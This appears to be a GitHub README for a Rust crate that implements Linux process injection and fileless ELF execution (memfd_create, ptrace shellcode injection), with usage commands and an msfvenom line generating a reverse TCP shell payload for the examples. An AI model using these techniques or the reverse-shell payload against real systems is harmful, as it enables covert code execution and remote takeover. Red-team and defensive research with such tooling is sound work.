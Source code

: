 # libinject-linux

`libinject-linux` is a Rust crate containing implementations for process injection and fileless ELF execution techniques on Linux.

## Functionality
The following techniques are currently implemented:
- Using [memfd_create(2)](https://man7.org/linux/man-pages/man2/memfd_create.2.html) to create an anonymous file in memory, write an ELF to it, and then execute.
- Using [ptrace(2)](https://man7.org/linux/man-pages/man2/ptrace.2.html) to stop a forked process, overwrite its RIP register with shellcode, and then resume it.

## Usage
### Library
Add `libinject-linux` as a dependency to your Rust project
```bash
cargo add --git https://github.com/dustyw0lf/libinject-linux.git
```

### Library examples
>[!note]
>The functions can take binaries or shellcode from either URLs or filesystem paths.

Clone the repo
```bash
git clone https://github.com/dustyw0lf/libinject-linux.git
```

Run the `memfd` example
```bash
cargo run --example memfd
```

To run the `hollow` example, first `cd libinject-linux/libinject/examples` and then
```bash
cargo run --example hollow
```

The example shellcode was generated using the following command
```bash
msfvenom --payload 'linux/x64/shell_reverse_tcp' LHOST=127.0.0.1 LPORT=1234 --format 'raw' --platform 'linux' --arch 'x64' --out shellcode.bin
```

### Standalone Binary
TODO: Write docs for standalone binary.
